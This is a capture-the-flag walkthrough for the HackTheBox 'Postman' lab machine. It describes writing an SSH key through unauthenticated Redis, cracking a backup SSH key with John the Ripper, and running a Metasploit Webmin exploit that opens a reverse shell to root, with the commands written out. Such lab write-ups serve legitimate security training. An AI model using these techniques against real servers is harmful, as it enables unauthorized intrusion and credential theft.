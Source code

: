 # POSTMAN

**IP**: `10.10.10.160`

**Difficulty**: Easy/Medium

### Steps
- Run a comprehensive `nmap` scan of all ports, this will identify two running services with vulnerabilities: `redis` and `webmin`

### Exploiging Redis

After scanning Postman, we learn that the port for `redis` is open on `6379` - but does it require authentication?

```
telnet 10.10.10.160 6379
Trying 10.10.10.160...
Connected to 10.10.10.160.
Escape character is '^]'.
```

This means no authentication is required! After some research, you'll see that an exploit applicable to the version of `redis` running exists that takes advantage of this.

*Script Pre-Reqs*:
- `python`
- `redis-cli`

There were a number of variations on this exploit I found written in python, but none worked for me standalone - which could simply be due to interference with other players running their scripts concurrently. Nevertheless, what succeeded on my end was a mashup of sorts, and can be found in `redis-exploit.py`

The gist of what it does, though, is after creating a new `ssh` private/public keypair, we copy the public key to a new file with new lines at the beginning and end before copying it to the open `redis` server via `redis-cli`. Modify the dbfilename, set the config directory to the `ssh` directory for the `redis` user, set the dbfilename to `authorized_keys`, save our changes, then `ssh` into the box using our newly created credentials.

Once you've ssh'd into the Postman host, you can `ls` the values of the `$HOME` directory and identify a user named `Matt` - some more searching will reveal an `id_rsa.bak` file, which is a backup ssh file, in the `/opt` directory. We have read access as the `redis` user, so I copied that file down to my workspace and saw that it's protected using a passphrase.

First, we need to convert the file into a readable format to run it through `john` (a.k.a [John The Ripper](https://github.com/magnumripper/JohnTheRipper))

```
python ssh2john.py id_rsa.bak > id_rsa.hash
```

Now we can run `john` (*NOTE: this is just where my wordlists file is saved*):

```
john --wordlist $HOME/htb/wordlists/rockyou.txt id_rsa.hash
```

It doesn't take long for `john` to crack the password, nice! That means we can switch users on the machine as Matt!

As the `redis` user, we run `sudo su - Matt` and enter our newly cracked password, and voilà, we're Matt now. 

A cursory search of Matt's files will return the `user.txt` file, victory.

### Exploiting Webmin

This one is really straightforward because there's a a `metasploit` exploit for `webmin` that works out of the box, giving you the ability to create a reverse shell. 

In `msfconsole` run `use exploit/linux/http/webmin_packageup_rce` - once in the module you will need to modify some of the options in order to successfully run the exploit:

```
set password ****** ## this is Matt's password that we cracked
set rhosts 10.10.10.160 ## this is the remote IP for the postman box
set ssl true
set username Matt 

set lhost tun0 ## this is our local IP that we're using with openvpn
[no need to change lport unless the default 4444 is in use on your machine]
```

Then type `run` and you will see that it starts a reverse TCP handler, generates a session cookie, then attempts to execute the payload you've configured. If it succeeds, a command shell session is opened. Just hit `Enter` and type `whoami` to verify that you're `root`. (*It might take a couple of seconds for a response*)

We can run a `python` script to give ourselves a better shell:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

This will output the normal terminal UI with a `root@Postman`, and from there we can iterate through the filesystem to find our `root.txt` file. 